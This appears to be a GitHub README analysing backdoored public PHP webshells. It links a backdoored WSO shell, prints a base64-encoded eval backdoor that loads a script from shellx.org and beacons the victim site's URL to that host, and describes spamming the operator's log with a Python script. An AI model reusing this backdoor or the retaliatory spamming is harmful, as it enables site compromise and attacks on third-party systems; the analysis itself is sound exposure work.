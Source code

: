 # Disturbing Public Backdoored Webshells
## _because it only cost few minutes :)_


I noticed that most of the sites which supposedly offer webshells, all of them are backdoored, and likely its indexed first when you googling for webshells.

- Decoding the hardcoded php webshell.
- Looking around.
- Cum on it ✨ 

## !Let's Start!
> a backdoored wso webshell : https://shellx.org//Shell/wsodownload.txt
> 
> Let's decode the hardcoded php here : https://malwaredecoder.com/

##### As you can see decrypted code level 3.
![huh](https://i.imgur.com/qick3FL.png)

Another example here : 
```
eval("?>".base64_decode("PFNDUklQVCBTUkM9aHR0cDovL3NoZWxseC5vcmcvaGlkZS9jc2huMS9jY3MuanM+PC9TQ1JJUFQ+"));
=========================== base64 decoded ===================================
<SCRIPT SRC=http://shellx.org/hide/cshn1/ccs.js></SCRIPT>
=============================== Content ======================================
a=new/**/Image();a.src='http://shellx.org/hide/add.php?a='+escape(location.href);
```

### Let's cum on it 
> well its a simple python code to spam his (logfile which it contains all the stolen shell results) :
![huh](https://i.imgur.com/843asnj.png)
![huh](https://i.imgur.com/6rvpxll.png)

**i hope u gonna get a big file like your acts loolz.**
 
